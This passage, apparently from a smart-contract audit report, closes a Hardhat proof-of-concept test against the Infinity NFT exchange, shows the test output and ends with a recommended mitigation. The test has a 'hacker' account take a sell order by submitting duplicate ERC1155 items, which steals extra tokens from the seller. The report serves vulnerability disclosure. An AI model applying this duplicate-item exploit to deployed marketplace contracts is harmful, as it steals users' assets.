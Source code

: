 ```js
        extraParams
      };
      const sellOrder = await prepare1155OBOrder(user, chainId, victim, order, infinityExchange);
      expect(sellOrder).to.not.be.undefined;

      // form matching nfts
      const nfts_ = [
        {
          collection: mock1155Contract1.address,
          tokens: [{ tokenId: 0, numTokens: 1 }]
        },
        {
          collection: mock1155Contract1.address,
          tokens: [{ tokenId: 0, numTokens: 1 }]
        }
      ];

      // approve currency
      let salePrice = getCurrentSignedOrderPrice(sellOrder);
      await approveERC20(hacker.address, token.address, salePrice, hacker, infinityExchange.address);

      // perform exchange
      await infinityExchange.connect(hacker).takeOrders([sellOrder], [nfts_]);

      // owners after sale
      // XXX: note that the user's intention is to send mock1155Contract1 x 1 + mock1155Contract2 x 1
      // When mock1155Contract1 is much more expensive than mock1155Contract2, user suffers from huge loss
      expect(await mock1155Contract1.balanceOf(hacker.address, 0)).to.equal(2);
    });
  });
});
```

And run

```bash
$ npx hardhat test --grep PoC

  PoC
    StealERC1155ByDuplicateItems
      ✓ Passed test denotes successful hack
```

Note that the passed test denotes a successful hack.

### Recommended Mitigation Steps

I would suggest a more gas-consuming approach by hashing all the items and putting them into a list. Then checking whether the lists match.
